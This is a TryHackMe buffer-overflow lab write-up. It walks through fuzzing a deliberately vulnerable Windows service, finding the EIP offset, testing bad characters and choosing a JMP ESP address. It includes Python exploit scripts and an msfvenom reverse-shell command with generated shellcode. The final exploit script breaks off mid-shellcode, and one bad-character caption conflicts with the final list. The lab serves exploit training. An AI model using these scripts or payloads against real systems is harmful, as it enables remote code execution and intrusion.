---
Category:
  - Pwn
Difficulty: Easy
Platform: TryHackMe
Status: 3. Complete
tags:
---
# Set up

- `xfreerdp /u:admin /p:password /cert:ignore /v:10.10.208.211 /w:1000 /h:1000`

# Information Gathering



Enumerated server's command:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ nc -nvC 10.10.208.211 1337
(UNKNOWN) [10.10.208.211] 1337 (?) open
Welcome to OSCP Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
OVERFLOW1 [value]
OVERFLOW2 [value]
OVERFLOW3 [value]
OVERFLOW4 [value]
OVERFLOW5 [value]
OVERFLOW6 [value]
OVERFLOW7 [value]
OVERFLOW8 [value]
OVERFLOW9 [value]
OVERFLOW10 [value]
EXIT
UNKNOWN COMMAND
EXIT
UNKNOWN COMMAND
UNKNOWN COMMAND
BACK
UNKNOWN COMMAND
UNKNOWN COMMAND
^C
```

## Fuzzing

Created the spike template and started fuzzing the server:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ nano OVERFLOW1.spk

┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ cat OVERFLOW1.spk
s_readline();
s_string("OVERFLOW1 ");
s_string_variable("0");

┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ generic_send_tcp 10.10.208.211 1337 OVERFLOW1.spk 0 0
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 5004
Fuzzing Variable 0:2
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 5005
Fuzzing Variable 0:3
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 21
Fuzzing Variable 0:4
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 3
Fuzzing Variable 0:5
Variablesize= 2
Fuzzing Variable 0:6
Variablesize= 7
Fuzzing Variable 0:7
Variablesize= 48
Fuzzing Variable 0:8
Variablesize= 45
Fuzzing Variable 0:9
Variablesize= 49
Fuzzing Variable 0:10
Variablesize= 46
Fuzzing Variable 0:11
Variablesize= 49
Fuzzing Variable 0:12
Variablesize= 46
Fuzzing Variable 0:13
Variablesize= 47
```



Server crash

Set up WireShark and found which request crashed the server:



Wireshark filters



Packet that crash the server

# The Bug

## Replicate the crash

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 "
fuzz = "A" * 5000

print "Fuzzing with %s bytes" % len(fuzz)
try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send(cmd + "/.:/"+fuzz)
        s.close()
except:
        print "\nCould not connect!"

```

Executed the fuzzer:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ python fuzzer.py
Fuzzing with 5000 bytes
```



Application crash again

# Exploitation

## Find the offset to control EIP

Generated the pattern:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ msf-pattern_create -l 5000 | xclip -sel c

```

Updated the fuzzer:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 "
#fuzz = "A" * 5000
fuzz = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9...'

print "Fuzzing with %s bytes" % len(fuzz)
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect((ip,port))
	s.recv(1024)
	s.send(cmd + "/.:/"+fuzz)
	s.close()
except:
        print "\nCould not connect!"
```



Crashed the app and extracted the EIP contents

Calculated the offset necessary to overwrite EIP:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ msf-pattern_offset -l 5000 -q 43386e43
[*] Exact match at offset 1974
```

Created the exploit skeleton:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "B" * 4
filler = "C" * (crash - (len(offset) + len(EIP) ))

payload = cmd + offset + EIP + filler

print "Fuzzing with %s bytes" % len(payload)
try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send(payload)
        s.close()
except:
        print "\nCould not connect!"
```

Executed the exploit and overwritten the EIP register:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ python exploit.py
Fuzzing with 5014 bytes
```



Arbitrary data within EIP

## Find all the badchars

Updated the exploit:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "B" * 4
#filler = "C" * (crash - (len(offset) + len(EIP) ))
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

payload = cmd + offset + EIP + badchars

print "Fuzzing with %s bytes" % len(payload)
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect((ip,port))
	s.recv(1024)
	s.send(payload)
	s.close()
except:
        print "\nCould not connect!"
```

Enumerated all bad chars:



Identified the first bad-char (0x2e)



Identified the second bad-char (0x0a)



There are no other bad-chars

Bad-chars: `\x00\x07\x2e\xa0`

## Find a jmp instruction



Listed all modules searching for unprotected ones



Identified the desired op-codes

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

# bad-chars \x00\x07\x2e\xa0

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "\xAF\x11\x50\x62" # 625011AF   FFE4             JMP ESP
filler = "C" * (crash - (len(offset) + len(EIP) ))

payload = cmd + offset + EIP + filler

print "Fuzzing with %s bytes" % len(payload)
try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send(payload)
        s.close()
except:
        print "\nCould not connect!"
```

## Generate the reverse shell

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.185.241 LPORT=10099 -e x86/shikata_ga_nai -i 3 -f py -b '\x00\x07\x2e\xa0' EXITFUNC=thread
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai succeeded with size 378 (iteration=1)
x86/shikata_ga_nai succeeded with size 405 (iteration=2)
x86/shikata_ga_nai chosen with final size 405
Payload size: 405 bytes
Final size of py file: 1983 bytes
buf =  b""
buf += b"\xdb\xd1\xd9\x74\x24\xf4\xba\x2f\xa4\x75\x5d\x58\x29"
buf += b"\xc9\xb1\x5f\x31\x50\x19\x03\x50\x19\x83\xe8\xfc\xcd"
buf += b"\x51\xca\x04\x03\x33\x38\x6d\xfc\x9a\x37\xb5\xf6\x45"
buf += b"\x8b\x7c\x47\x2d\xda\x06\xb2\x4d\xf4\x0b\xbf\x29\x14"
buf += b"\x16\x13\x01\x75\x02\x51\x5b\xfd\xf6\x03\x1f\xdd\x43"
buf += b"\x32\xf6\x37\x71\x13\xed\x98\xbe\x7d\x56\x44\xfc\xb2"
buf += b"\x6a\x1c\x57\xc8\xd5\x23\xd2\x0d\xc6\x6b\x81\x76\x15"
buf += b"\x67\xcd\x3c\xf9\x18\x05\x8b\xe4\x46\x46\x21\xec\x93"
buf += b"\x34\x83\xdb\x9b\x6e\xe8\xde\x3d\xe7\x51\x86\x03\x08"
buf += b"\x04\xca\xaa\x55\xd4\x2c\x56\x58\xf1\x25\x30\x51\x89"
buf += b"\xc7\x08\x84\x51\xf2\xfc\x33\xda\x26\x84\x06\xa9\x2f"
buf += b"\x5b\xa6\x91\xcc\x64\xfb\xc2\x3f\xb7\x75\xed\x47\xf0"
buf += b"\x27\x0a\x6c\x25\x51\x10\x3a\x44\x46\xc6\xbe\xbd\x79"
buf += b"\xe4\x56\x9c\x92\x69\x51\x44\xf6\x53\x92\x13\x45\xcc"
buf += b"\xea\x7f\x54\x45\xcf\x08\x12\xa8\x3b\x62\xf3\x3a\x7b"
buf += b"\xba\x40\xe1\xe2\x21\x8f\xdb\xc0\xb9\xb5\x5f\x35\x41"
buf += b"\xa5\x2d\x43\x41\x1d\x5e\x39\x66\x71\x6b\xcf\x30\x59"
buf += b"\x4e\x71\x1e\x85\x9c\x8e\x99\xcb\xd3\xfc\x4f\x9e\xb2"
buf += b"\x80\x4d\xc6\xa9\x15\x74\xd7\x5d\xa2\x19\x7f\x4a\x12"
buf += b"\x70\xf5\x6a\x01\xa3\xd2\x9b\x2c\x21\x76\x8b\x32\x9c"
buf += b"\xf0\x3a\x77\xd3\xb6\xd5\xe1\x2d\x1a\xf3\xa3\xd1\xe4"
buf += b"\x5d\xac\xfb\x90\x77\x49\x72\x51\xc7\x6a\x30\xb8\x2a"
buf += b"\x1d\xcd\x56\x90\xb7\x85\x8c\x5a\xa9\x8a\xaa\xf9\x71"
buf += b"\xdc\x8a\x97\xa5\x83\x56\xe8\x99\x4a\xef\x52\x71\x9f"
buf += b"\x51\x8b\x62\x0e\x76\x32\x5c\xe9\xdd\x4d\x9e\x7a\x50"
buf += b"\x0a\x4c\x1a\x4f\xc9\x57\x62\x5f\x03\x61\xd1\xe2\x94"
buf += b"\xcd\x22\xa1\xda\x35\xa9\x8b\x15\x44\x67\x5d\xbd\xa5"
buf += b"\x1f\xd8\x5c\xca\xfc\x8b\xe6\xeb\x81\x06\xe5\x7a\x67"
buf += b"\x38\x74\xfb\x95\x31\xf0\x16\xd2\xe6\xa6\xfb\x73\xfe"
buf += b"\x2a\xbf\x7a\x78\x31\x7a\x92\x6d\x08\xf6\x87\x8a\x59"
buf += b"\x62\x84\xb0\x29\x15\x6a\x08\x57\xcd\x51\xce\x33\x18"
buf += b"\x5f\xbf"
```

Updated the final exploit:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

# bad-chars \x00\x07\x2e\xa0

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "\xAF\x11\x50\x62" # 625011AF   FFE4             JMP ESP
nop = "\x90" * 32

# msfvenom -p windows/shell_reverse_tcp LHOST=10.8.185.241 LPORT=10099 -e x86/shikata_ga_nai -i 3 -f py -b '\x00\x07\x2e\xa0' EXITFUNC=thread
buf =  b""
buf += b"\xdb\xd3\xd9\x74\x24\xf4\x5f\x29\xc9\xb1\x5f\xbd\xbe"
buf += b"\x73\xe9\xc0\x83\xc7\x04\x31\x6f\x15\x03\x6f\x15\x5c"
buf += b"\x86\x34\x01\x79\x1d\xe3\x76\xc4\x77\x1c\x5d\xa6\xd2"
buf += b"\xd0\x6b\x77\xba\x27\x06\x6d\x38\x22\xcc\x12\xfc\xb6"
buf += b"\x12\x48\x49\xe8\xd4\x6d\x63\x6f\x3e\x75\x52\xd1\xdc"
buf += b"\x22\x6d\xba\xb1\x29\xf6\xe7\xc0\xa9\x05\xcb\x44\x1a"
buf += b"\x6a\x51\x9b\x72\xb2\x1f\x0e\x97\x1f\xec\x58\x72\x4e"
buf += b"\x69\x8c\xc0\xb7\xdc\x02\x09\x3d\x5c\x2d\x9f\x9f\xa9"
buf += b"\x35\x9b\x3d\x9e\x6c\x14\xc2\xbf\x48\x8f\x67\x0d\x16"
buf += b"\x72\x21\x7f\x02\x54\xb0\x6e\xd0\x51\x1f\xe8\x6f\xe7"
buf += b"\x22\x85\x7e\xfb\x57\xba\xc2\x7e\x3b\xd5\x76\xf9\x8e"
buf += b"\x58\xfd\xdf\xf3\x8d\xbf\x88\x43\x6a\x5a\x65\xc3\x56"
buf += b"\x83\x0e\x02\xc2\xed\x46\xbe\xc4\x8f\xd8\x8f\xa7\xea"
buf += b"\xc4\x16\xba\x6c\xbd\xfd\xda\xe2\x41\x5e\xfd\x1a\xde"
buf += b"\x5b\xbb\xc8\xdd\x30\xae\x6a\x28\x08\x15\xbd\x28\x9d"
buf += b"\xb6\x28\xd7\x9c\x93\xd7\xff\xda\xeb\x44\xbb\x48\xcf"
buf += b"\x3b\x47\xaa\x5b\x06\x44\xa3\x90\xf5\xfb\xbe\x71\xfe"
buf += b"\xda\x6b\xeb\x99\xa2\xc0\x44\x36\xa5\x59\x0a\xf0\x1e"
buf += b"\xef\x9e\x24\xc1\x1c\x0b\xae\x73\xaf\xb2\x1b\x68\x3b"
buf += b"\x71\x54\xca\x81\xd1\x8f\x6f\x40\x30\x47\xa9\x37\xb0"
buf += b"\x04\xf0\x1d\x4d\x13\x61\xe8\x16\xd9\xc3\x9d\x89\x08"
buf += b"\x3f\x1e\x05\xca\xf5\x50\x3d\x3d\xd3\xa7\xdd\x58\xfa"
buf += b"\x1c\xd3\x29\xfe\xfc\x0e\xbd\x18\xda\xa9\x3b\xe9\x75"
buf += b"\x73\xa7\xcf\x85\xd5\x08\x02\x11\xf1\x54\xe8\x3d\x3e"
buf += b"\x2c\x0f\x0e\x5c\x65\x3e\xf4\xad\x2b\x37\x67\x05\x6d"
buf += b"\x48\x8f\x2d\x16\x71\x3a\xb9\xce\x8b\xe9\x7a\x32\x5a"
buf += b"\x85\xfb\x5f\xd0\x22\x95\x50\xd5\xe6\xcc\x3b\xc9\x1d"
buf += b"\x2b\xa8\x46\xcd\x62\x64\x70\xb8\x1c\x29\xb9\x7b\xe1"
buf += b"\xcf\x1c\x0a\x73\x2d\x62\x4f\xdb\xaf\x54\x85\x6b\xcf"
